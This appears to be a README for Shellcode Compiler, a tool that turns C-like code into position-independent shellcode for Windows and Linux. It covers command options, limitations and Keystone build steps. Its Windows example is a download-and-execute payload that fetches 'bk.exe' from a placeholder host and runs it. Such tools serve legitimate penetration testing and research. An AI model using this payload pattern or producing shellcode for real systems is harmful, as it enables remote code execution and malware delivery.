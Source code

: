 # Shellcode Compiler

Shellcode Compiler is a program that compiles C/C++ style code into a small, position-independent and NULL-free shellcode for Windows (x86 and x64) and Linux (x86 and x64). It is possible to call any Windows API function or Linux syscall in a user-friendly way.

Shellcode Compiler takes as input a source file and it uses it's own compiler to interpret the code and generate an assembly file which is assembled with Keystone engine.

# Command line options

        -h (--help)      : Show this help message
        -p (--platform)  : Shellcode platform: win_x86,win_x64,linux_x86,linux_x64
        -v (--verbose)   : Print detailed output
        -t (--test)      : Test (execute) generated shellcode
        -r (--read)      : Read source code file
        -o (--output)    : Output file of the generated binary shellcode
        -a (--assembbly) : Output file of the generated assembly code

# Windows example

        function URLDownloadToFileA("urlmon.dll");
        function WinExec("kernel32.dll");
        function ExitProcess("kernel32.dll");

        URLDownloadToFileA(0,"https://site.com/bk.exe","bk.exe",0,0);
        WinExec("bk.exe",0);
        ExitProcess(0);

# Linux example

		chmod("/root/chmodme",511);
		write(1,"Hello, world",12);
		kill(1661,9);
		getpid();
		execve("/usr/bin/burpsuite",0,0);
		exit(2);

# Invocation example

        ShellcodeCompiler.exe -r Source.txt -o Shellcode.bin -a Assembly.asm -p win_x64
        
# Limitations

1. It is not possible to use the return value of an API call
2. It is not possible to use pointers or buffers
3. It is not possible to declare variables

Multiple other limitations exists as well.
This is an Alpha version. Please report any bugs or suggestions.

# Changelog

1. Initial support for Windows x64
2. Initial support for Linux (x86 and x64) shellcodes

# Keystone compilation

1. Download Keystone Engine source code
2. Download, install and put in PATH cmake and python
3. Open Visual Studio 2019 - x86 (for 32 bits) and x64 (for 64 bits) "Native Tools Command Prompts" and go to Keystone source directory
4. Edit nmake-lib.bat file and replace -DLLVM_TARGETS_TO_BUILD="all" with -DLLVM_TARGETS_TO_BUILD="X86"
5. Run mkdir build and cd build commands
6. Run ..\nmake-lib.bat command
7. Copy the resulted lib file from keystone-src\build\llvm\lib\keystone.lib to ShellcodeCompiler\Keystone\keystone_x86.lib (for 32 bits) and keystone_x64.lib (for 64 bits)

# Author

Ionut Popescu (@NytroRST)
